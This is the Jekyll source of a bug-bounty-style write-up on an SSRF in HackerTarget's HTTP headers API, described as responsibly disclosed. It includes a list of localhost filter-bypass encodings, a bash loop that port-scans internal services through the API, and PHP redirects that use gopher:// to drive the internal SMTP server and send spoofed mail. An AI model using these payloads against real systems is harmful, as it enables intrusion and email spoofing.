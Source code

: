 ```yaml
---
layout: post
title: "Hacking the Hackers: Leveraging an SSRF in HackerTarget"
author: Corben Leo
---
```

### &#128187;&nbsp;Introduction:
This is a write-up of an SSRF I accidentally found in HackerTarget and leveraged to get access to internal services! Please **note** that they **don't** have an active bug bounty program.<br>
<h4>&#129300; What is HackerTarget?</h4>
<a href="https://hackertarget.com" class="link">HackerTarget</a> is a service that provides access to online vulnerability scanners and tools used by many security professionals and "makes securing your systems easier". They also are the creators of <a href="https://dnsdumpster.com/" class="link">DNSDumpster</a>, which is utilized in several recon tools.
<br><br>
<h4>&#128565; SSRF:</h4>
Server-Side Request Forgery (SSRF) is a vulnerability in which an attacker can send a controlled, crafted request via a vulnerable application. We can communicate with different services running on different protocols by utilizing URI schemes such as `gopher://`,`dict://`, `ftp://`, etc. Getting a server to issue a request **is not** a vulnerability in itself, but it 
 becomes one when you can make requests to things you wouldn’t or shouldn’t normally have access to, such as internal networks or internal services.<br><br>
### &#128270;&nbsp;Finding the vulnerability:
I was using DNSDumpster for recon during a bug hunting session, and I noticed there was a button of a globe similar to &#127758; that said "Get HTTP Headers":
<br>
<br>
![HT-HTTPHeaders](/images/ht-httpheaders.png "HTTP Headers function")
<br><br>
It made a call to `https://api.hackertarget.com/httpheaders/?q=<target>` and displayed the HTTP Headers of a simple **GET** request sent to the target server.
<br><br>
![HT-API-Call](/images/api-result.png "HackerTarget")
<br><br>I was obviously intrigued, so I tried querying 127.0.0.1! The API dumped the HTTP request and the query went through! I then tried to see if I could get the SSH version by querying **127.0.0.1:22**
<br><br>Response:<br><br>
![HT-SSH](/images/ht-ssh.png "HackerTarget")
<br><br>
I initially reported it as is, knowing I could hit internal services if there were any. They thanked me for the heads up and told me to check the patch they issued. I checked it, and it was easy to bypass: it was merely blocking 127.0.0.1. Here are a few of the bypasses I used:
```
0
127.00.1
127.0.01
0.00.0
0.0.00
127.1.0.1
127.10.1
127.1.01
0177.1
0177.0001.0001
0x0.0x0.0x0.0x0
0000.0000.0000.0000
0x7f.0x0.0x0.0x1
0177.0000.0000.0001
0177.0001.0000..0001
0x7f.0x1.0x0.0x1
0x7f.0x1.0x1
localtest.me
```
I informed them that there **isn't** a way to validate the query just by using string-based checks, so I suggested that they **resolve** the domains and **check** them against local IP ranges. They agreed and said they would think about it.
<br><br>
About 10 days later I asked if they had issued another patch or not, and the response was:
> "It is on my todo list. Not critical though as there are no local services that could be hit with it."

<center>
<h4>&#128527;&nbsp;challenge accepted.</h4>
</center>
<br>

### &#128526;&nbsp;Leveraging like a Boss
I decided to write a bash script that queried the API with one of the bypasses and with a port number to see if I could see what internal services it was running:
```bash
#!/usr/bin/env bash
for port in `seq 1 9999`
do
	echo -e "\n\n[+] Checking Port: "$port"\n"
	curl 'https://api.hackertarget.com/httpheaders/?q=http://'$1':'$port && echo -e "\n"
done
```
I ran it: `root@pwn  ~  ./ht 0177.1`

HackerTarget limits 25 API queries per IP, so my script only showed the ports 1 - 25. The only responses I got were from SSH running on port 22 and I luckily got a response from the SMTP server on port 25, which I had totally overlooked before!<br><br>
![HT-POSTFIX](/images/ht-postfix.png "HackerTarget")
<br>
#### &#128104;&zwj;&#128187; &nbsp;SMTP?
 - SMTP stands for <font id="highlighter">Simple Mail Transfer Protocol</font>.
 - It is a <a href="https://en.wikipedia.org/wiki/Internet_protocol_suite" rel="noopener noreferrer" target="_blank"><font id="highlighter">TCP/IP</font></a> protocol that's used for sending emails. (who would've guessed? &#128514;)
 - Usually it's used along with either <a target="_blank" rel="noopener noreferrer" href="https://en.wikipedia.org/wiki/Post_Office_Protocol"><font id="highlighter">pop3</font></a> or<a target="_blank" rel="noopener noreferrer" href="https://en.wikipedia.org/wiki/Internet_Message_Access_Protocol"> <font id="highlighter">imap</font></a>, which are used to receive emails.


I knew I would be able to hit the service with this SSRF, but I wasn't positive that I would be able to send the valid commands needed to send emails from it. I then tried deducing which wrappers were supported and enabled besides **http://** and **https://**. <br><br>
I tried using <font id="highlighter2">dict://</font> right away and was able to get the libcurl version, but that wasn't very helpful. Next, I created a PHP file on my server to initiate a redirect to another port with the <font id="highlighter2">gopher://</font> wrapper:<br>
```php
<?php
header("Location: gopher://<server>:1337/_SSRF%0ATest!");
?>
```
<br>
In a nutshell, the gopher:// protocol sends 1 character, a new line (CR+LF), and the remaining data, which allows us to send a **multiline request**. <br><br>
I started netcat and checked the API again: `https://api.hackertarget.com/httpheaders/?q=http://<server>/redirect.php`. It followed the redirect  and I received a multiline request on port 1337!
<br><br>This means I could send valid commands to the internal SMTP server!

### &#127881;&nbsp;The Finale
I created another PHP file on my server that would redirect the API to the internal SMTP server and issue the valid SMTP commands!
```php
<?php
        $commands = array(
                'HELO hackertarget.com',
                'MAIL FROM: <admin@hackertarget.com>',
                'RCPT To: <my@email.com>',
                'DATA',
                'Subject: cdl!',
                'Corben was here, woot woot!',
                '.'
        );

        $payload = implode('%0A', $commands);

        header('Location: gopher://0:25/_'.$payload);
?>
```
<br><br>
I changed the query one last time: `https://api.hackertarget.com/httpheaders/?q=http://<server>/smtp.php`
<br><br>
I went to my email, reloaded it once.
<br><br>
A new email popped up from "<font id="highlighter">admin@hackertarget.com</font>" with the subject "<font id="highlighter">cdl!</font>" and the message was "<font id="highlighter2">Corben was here, woot woot!</font>"
<br><br>
After yelling 'heck yeah!', I created a quick proof-of-concept video and I sent it over to HackerTarget.
<br> <br>Here's the video <font color="#2EB03D">&#128373;&#65039;</font><br>
<iframe width="580" height="370" src="https://www.youtube.com/embed/F_sC_OrSkIc" frameborder="0" gesture="media" allow="encrypted-media" allowfullscreen></iframe>
<br><br>The response?
> Nice work. Thanks for the PoC. I will finish mitigation on this and check other inputs too now.... you have opened my eyes to SSRF :)


<br><br>
It was a blast to leverage an SSRF on a target that everyone knows of and uses often!<br><br>

### &#9888;&#65039;&nbsp;Note:
They **DO NOT** have a bug bounty program, so please **DO NOT** test them without their permission!
<br><br>
Thanks for reading,<br><br>
**Corben Leo**
- <a class="link" href="https://twitter.com/hacker_"  target="_blank" rel="noopener noreferrer">https://twitter.com/hacker_</a>
- <a class="link" href="https://hackerone.com/cdl" target="_blank" rel="noopener noreferrer">https://hackerone.com/cdl</a>
- <a class="link" href="https://bugcrowd.com/c" target="_blank" rel="noopener noreferrer">https://bugcrowd.com/c</a>
- <a class="link" href="https://github.com/lc"  target="_blank" rel="noopener noreferrer">https://github.com/lc</a>
